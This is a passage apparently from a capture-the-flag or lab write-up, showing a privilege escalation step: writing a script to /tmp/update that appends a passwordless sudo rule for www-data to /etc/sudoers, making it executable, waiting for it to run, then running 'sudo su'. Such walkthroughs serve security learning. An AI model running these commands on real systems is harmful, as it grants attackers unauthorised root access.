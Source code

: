 ![](./IMG/66.png)
### Privilege Escalation

- Create update file with privilege escalation payload under ```/tmp```
```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL">> /etc/sudoers && chmod 440 /etc/sudoers' > update
```

![](./IMG/67.png)
- Check the file created successful or not

![](./IMG/68.png)
- The update file permission doesn't contain execute(x)
- Adding it.
```
chmod +x update
```
- Wait for the update file be execute. (maybe wait for 1-2 minutes)
- Then execute the folloing command 
```
sudo su
```
